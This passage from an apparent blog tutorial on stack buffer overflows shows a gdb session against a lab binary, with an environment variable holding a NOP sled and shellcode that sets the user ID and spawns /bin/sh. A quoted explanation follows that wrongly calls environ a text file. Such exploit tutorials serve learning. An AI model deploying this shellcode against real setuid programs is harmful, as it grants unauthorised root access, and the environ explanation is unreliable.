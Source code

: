 	Breakpoint 1, main (argc=1, argv=0xffffd614) at cat_pictures.c:20
	warning: Source file is more recent than executable.
	20          derp(argv[1]);
	<span style="color: green;">(gdb)</span> <span style="color: brown;">x/20s *((char **) environ)</span>
	0xffffd75b:     "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...
	0xffffd823:     "=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=0"...
	0xffffd8eb:     "1;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.al"...
	0xffffd9b3:     "z=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;"...
	0xffffda7b:     "35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*."...
	0xffffdb43:     "m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;"...
	0xffffdc0b:     "35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka="...
	0xffffdcd3:     "00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:"
	0xffffdd47:     "_=/usr/bin/gdb"
	0xffffdd56:     "OLDPWD=/root"
	<span style="color: brown;">0xffffdd63:     "SHELLCODE=", '\220' &lt;repeats 190 times&gt;...</span>
	0xffffde2b:     "\220\220\220\220\220\220\220\220\220\220\061\300\061\333\061\311\231\260\244\315\200j\vXQh//shh/bin\211\343Q\211\342S\211\341\315\200"
	0xffffde59:     "USER=test"
	0xffffde63:     "SCHROOT_GROUP=root"
	0xffffde76:     "PWD=/home/test"
	0xffffde85:     "LINES=50"
	0xffffde8e:     "HOME=/home/test"
	0xffffde9e:     "SCHROOT_ALIAS_NAME=32"
	0xffffdeb4:     "SCHROOT_GID=0"
	0xffffdec2:     "SCHROOT_UID=0"
	<span style="color: green;">(gdb)</span> x 0xffffdd63+100
	0xffffddc7:     '\220' <repeats 110 times>, "\061\300\061\333\061\311\231\260\244\315\200j\vXQh//shh/bin\211\343Q\211\342S\211\341\315\200"
	<span style="color: green;">(gdb)</span>
	</pre>

	> What is the `environ` symbol?  That refers to the text file that stores all the environment variables for every process that is created.  You can find them in the virtual `proc` filesystem.  Every process will have a directory for the time it is running and is removed when it is closed/killed.
	>
	> For example, as `GDB` is running, I opened another terminal, got its process number, and listed it in the `proc` filesystem:
	>
	> 		$ pgrep gdb
	> 		20083
	>
	>		~:$ sudo ls /proc/20083
	>		attr       clear_refs       cpuset   fd       limits     mem         net        oom_score      personality  schedstat  smaps_rollup  status   timerslack_ns
	>		autogroup  cmdline          cwd      fdinfo   loginuid   mountinfo   ns         oom_score_adj  projid_map   sessionid  stack         syscall  uid_map

[Stack smashing]: https://en.wikipedia.org/wiki/Stack_buffer_overflow
[Part one]: /2019/04/09/on-stack-smashing-part-one/
[`setuid`]: https://en.wikipedia.org/wiki/Setuid
[`-fno-stack-protector`]: https://stackoverflow.com/questions/10712972/what-is-the-use-of-fno-stack-protector
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[machine code]: https://en.wikipedia.org/wiki/Machine_code
[NOP sled]: https://en.wikipedia.org/wiki/NOP_slide
[`getenv`]: http://man7.org/linux/man-pages/man3/getenv.3.html